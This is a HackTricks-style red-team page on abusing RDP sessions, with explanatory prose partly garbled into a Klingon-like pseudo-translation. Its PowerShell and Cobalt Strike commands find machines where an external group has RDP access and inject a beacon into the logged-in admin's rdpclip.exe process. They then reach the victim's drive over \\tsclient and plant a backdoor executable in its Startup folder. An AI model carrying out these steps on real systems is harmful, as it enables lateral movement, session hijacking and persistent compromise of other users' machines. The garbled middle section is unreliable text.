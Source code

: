 # RDP Sessions Abuse

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a> <strong>qaStaHvIS</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## RDP Process Injection

If the **external group** has **RDP access** to any **computer** in the current domain, an **attacker** could **compromise that computer and wait for him**.

Once that user has accessed via RDP, the **attacker can pivot to that users session** and abuse its permissions in the external domain.
```powershell
# Supposing the group "External Users" has RDP access in the current domain
## lets find where they could access
## The easiest way would be with bloodhound, but you could also run:
Get-DomainGPOUserLocalGroupMapping -Identity "External Users" -LocalGroup "Remote Desktop Users" | select -expand ComputerName
#or
Find-DomainLocalGroupMember -GroupName "Remote Desktop Users" | select -expand ComputerName

# Then, compromise the listed machines, and wait til someone from the external domain logs in:
net logons
Logged on users at \\localhost:
EXT\super.admin

# With cobalt strike you could just inject a beacon inside of the RDP process
beacon> ps
PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
...
4960  1012  rdpclip.exe                  x64   3           EXT\super.admin

beacon> inject 4960 x64 tcp-local
## From that beacon you can just run powerview modules interacting with the external domain as that user
```
**QaHvInception**

**RDP**Daq **machin**e' **RDP**Daq **ghopwIj** **vItlhutlh** 'e' **attacker**, **ghopwIj** **RDP**Daq **ghopwIj** **beacon** **inject** **vItlhutlh** **user** **RDP**Daq **ghopwIj** **session** **'ej** **victim** **drive** **mounted** **vItlhutlh** **attacker** **access** **'e'.

**vItlhutlh** **victims** **original computer** **compromise** **just** **'e'** **backdoor** **write** **statup folder**.
```powershell
# Wait til someone logs in:
net logons
Logged on users at \\localhost:
EXT\super.admin

# With cobalt strike you could just inject a beacon inside of the RDP process
beacon> ps
PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
...
4960  1012  rdpclip.exe                  x64   3           EXT\super.admin

beacon> inject 4960 x64 tcp-local

# There's a UNC path called tsclient which has a mount point for every drive that is being shared over RDP.
## \\tsclient\c is the C: drive on the origin machine of the RDP session
beacon> ls \\tsclient\c

Size     Type    Last Modified         Name
----     ----    -------------         ----
dir     02/10/2021 04:11:30   $Recycle.Bin
dir     02/10/2021 03:23:44   Boot
dir     02/20/2021 10:15:23   Config.Msi
dir     10/18/2016 01:59:39   Documents and Settings
[...]

# Upload backdoor to startup folder
beacon> cd \\tsclient\c\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
beacon> upload C:\Payloads\pivot.exe
```
<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
